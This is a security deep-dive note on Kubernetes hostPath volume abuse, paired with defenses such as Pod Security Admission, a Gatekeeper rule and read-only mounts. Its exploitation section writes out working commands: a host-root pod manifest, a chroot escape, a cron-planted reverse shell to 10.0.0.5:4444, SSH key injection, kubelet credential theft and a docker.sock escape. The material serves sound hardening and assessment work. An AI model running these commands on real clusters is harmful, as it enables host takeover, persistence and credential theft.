

# HostPath Volume Mount Abuse

## Introduction
In Kubernetes, storage is decoupled from the compute resources (Pods) via Volumes. Among the various volume types supported by Kubernetes, the `hostPath` volume is one of the most powerful and, consequently, one of the most dangerous. 

A `hostPath` volume mounts a file or directory from the host node's filesystem directly into a Pod. This feature is intended for specialized administrative tasks—such as logging agents (e.g., Fluentd needing access to `/var/log` on the host) or security agents needing kernel access. However, when an application pod is overly provisioned with a `hostPath` mount, or if an attacker gains the ability to deploy pods with arbitrary `hostPath` configurations, it provides a trivial and highly reliable vector for container escape and host compromise.

This deep dive details the mechanics of `hostPath` abuse, the various ways it can be exploited by an attacker, and robust strategies for preventing this misconfiguration at scale.

## The Mechanics of HostPath

When a `hostPath` volume is declared in a Pod manifest, the Kubelet instructs the container runtime (e.g., containerd) to bind-mount the specified path from the underlying worker node's file system into the container's file system.

Unlike PersistentVolumes (PVs) or PersistentVolumeClaims (PVCs) which abstract the storage backend, `hostPath` is tied tightly to the specific node where the Pod is scheduled.

### The Vulnerable Manifest
A typical malicious or dangerously misconfigured Pod manifest utilizing `hostPath` looks like this:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: hostpath-escape-pod
spec:
  containers:
  - name: attacker-shell
    image: ubuntu:latest
    command: ["/bin/sleep", "infinity"]
    volumeMounts:
    - mountPath: /host_root
      name: host-volume
  volumes:
  - name: host-volume
    hostPath:
      path: /          # <--- The root of the host's filesystem
      type: Directory
```

In this example, the entire host filesystem `/` is mounted into the container at `/host_root`. The container can now read, write, and execute files as if it were operating directly on the host.

## Visualizing the HostPath Escape



## Exploitation Vectors

If an attacker lands inside a container with a dangerous `hostPath` mount (or has RBAC permissions to create one), they can execute several critical attacks to achieve full node compromise.

### 1. The Direct Chroot Escape
If the root directory (`/`) of the host is mounted, escaping is as simple as using the `chroot` command to change the apparent root directory of the current shell to the mounted host directory.

```bash
# Verify the mount exists
ls -la /host_root

# Chroot into the host file system
chroot /host_root /bin/bash
```
Once executed, the attacker's shell is effectively operating outside the container's filesystem constraints, running binaries directly from the host's `/bin` and modifying host configurations.

### 2. Modifying CronJobs for Host Execution
Even if `chroot` is restricted, an attacker can achieve Remote Code Execution (RCE) on the host by writing to scheduled task directories. If `/etc` or `/var/spool/cron` is mounted:

```bash
# Write a malicious payload to the host's crontab
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/10.0.0.5/4444 0>&1'" > /host_root/etc/cron.d/malicious_job

# Wait 1 minute for the reverse shell
```
The host's `cron` daemon (running outside the container) will read this file and execute the payload with host-level root privileges.

### 3. Hijacking SSH Keys
If the host's `/root` or `/home` directories are mounted via `hostPath`, an attacker can achieve persistent access by manipulating SSH authorized keys.

```bash
# Add the attacker's public SSH key to the host's root authorized_keys
mkdir -p /host_root/root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc... attacker@domain" >> /host_root/root/.ssh/authorized_keys
```
The attacker can then directly SSH into the Kubernetes worker node as the root user, completely bypassing K8s logging and API controls.

### 4. Stealing Kubelet Credentials
Every worker node runs a `kubelet` service that authenticates to the Kube-API server. The kubelet's kubeconfig file acts as a highly privileged identity token.

```bash
# Read the host's kubelet configuration
cat /host_root/etc/kubernetes/kubelet.conf
```
With this configuration, the attacker can use `kubectl` from their own machine to authenticate to the cluster as the node itself. This allows them to read secrets for all pods on that node and, in older K8s versions or misconfigured RBAC setups, escalate privileges to cluster-admin.

### 5. Docker.sock / Containerd Socket Mounting
Sometimes, instead of the full file system, a developer will specifically mount the container runtime socket (e.g., `/var/run/docker.sock` or `/run/containerd/containerd.sock`) to allow a container to build images or run sibling containers (Docker-in-Docker / DinD setups).

```yaml
    hostPath:
      path: /var/run/docker.sock
```
If an attacker compromises a container with access to `docker.sock`, they can simply install the Docker CLI and launch a brand new, highly privileged container that mounts the host root, effectively escaping K8s controls via the underlying Docker daemon.

```bash
# Inside the compromised pod
docker -H unix:///var/run/docker.sock run -v /:/host -it --privileged ubuntu bash
```

## Defense and Mitigation

Because `hostPath` maps directly to the underlying infrastructure, restricting its use is a top priority for Kubernetes cluster hardening.

### 1. Pod Security Admission (PSA)
The native way to restrict `hostPath` in modern Kubernetes (v1.25+) is by enforcing the Pod Security Standard profiles.
- **Baseline Profile**: Restricts `hostPath` usage to known safe paths (rarely used).
- **Restricted Profile**: Completely denies the creation of any Pod that requests a `hostPath` volume.

Enforcing this at the namespace level:
```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: hardened-namespace
  labels:
    pod-security.kubernetes.io/enforce: restricted
```

### 2. OPA Gatekeeper / Kyverno Policies
For environments that require exceptions (e.g., allowing `hostPath` ONLY in the `kube-system` namespace for monitoring tools), generic PSA is insufficient. Policy engines like OPA Gatekeeper must be used.

**Example OPA Gatekeeper Constraint Template Logic:**
A policy can be written to reject any Pod containing the `hostPath` key in its volume spec, unless the namespace is explicitly allow-listed.

```rego
violation[{"msg": msg}] {
  volume := input.review.object.spec.volumes[_]
  has_key(volume, "hostPath")
  input.review.object.metadata.namespace != "kube-system"
  msg := sprintf("hostPath volumes are forbidden. Found volume: %v", [volume.name])
}
```

### 3. Read-Only Mounts
If an application absolutely must read a file from the host (e.g., reading a time zone file or a specific log), the mount MUST be set to `readOnly: true`.

```yaml
    volumeMounts:
    - mountPath: /var/log/host_logs
      name: host-logs
      readOnly: true
```
While this prevents the attacker from modifying the host (preventing crontab or SSH key injection), it still allows data exfiltration if sensitive files are exposed.

## Conclusion
`hostPath` mounts represent a critical security boundary bypass. They puncture the isolation provided by container namespaces, linking the application layer directly to the infrastructure layer. Offensive assessments should actively hunt for exposed `hostPath` volumes or the RBAC permissions to create them. Defensive engineers must adopt a default-deny posture, strictly enforcing admission control policies that block `hostPath` requests outside of rigorously audited core system namespaces.

## Chaining Opportunities
- Abusing a `hostPath` mount allows an attacker to read `/var/log` or memory dumps, leading to [[17 - Service Account Token Theft]].
- Escaping to the host node allows the attacker to steal `etcd` certificates, enabling [[14 - Kubernetes etcd — Direct Access to Secrets]].
- `hostPath` abuse is often the post-exploitation step after gaining initial access via [[12 - Kubernetes RBAC Misconfigurations]].

## Related Notes
- [[15 - Pod Security — Privileged Pods]]
- [[11 - Linux Capabilities and Privilege Escalation]]
- [[09 - Docker Daemon Security]]
